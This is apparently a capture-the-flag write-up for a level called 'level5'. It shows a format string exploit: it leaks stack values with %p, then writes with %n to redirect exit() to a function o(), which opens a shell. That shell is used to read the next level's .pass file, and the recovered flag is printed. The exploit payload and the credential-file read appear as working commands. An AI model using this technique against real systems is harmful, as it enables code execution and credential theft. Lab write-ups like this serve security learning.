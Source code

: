 # level 5

There is an exec level5, we bring to local data.

    (python -c 'print "aaaabbbbcccc" + " %p" * 10') | ./level5 
    aaaabbbbcccc 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262 0x63636363 0x20702520 0x25207025 0x70252070 0x20702520

## addresses
o()
    080484a4
exit()
    0x8049838

    $ (python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat ) | ./level5
    whoami
    level6
    pwd
    /home/user/level5
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
